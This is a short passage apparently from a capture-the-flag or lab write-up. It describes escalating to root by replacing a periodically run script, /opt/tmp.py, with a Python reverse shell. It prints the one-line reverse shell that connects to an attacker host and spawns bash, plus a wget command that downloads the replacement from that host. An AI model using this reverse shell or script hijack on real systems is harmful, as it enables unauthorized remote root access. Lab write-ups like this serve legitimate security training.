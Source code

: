 Found a script running every couple minutes /opt/tmp.py that removes all files from /tmp/ directory. I was able to replace the file and replaced it with python reverse shell script
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

Downloaded and replaced file in /opt
```bash
wget -O tmp.py http://10.10.14.7:8888/tmp.py
```

Got a reverse shell as root
![[Pasted image 20240901125645.png]]

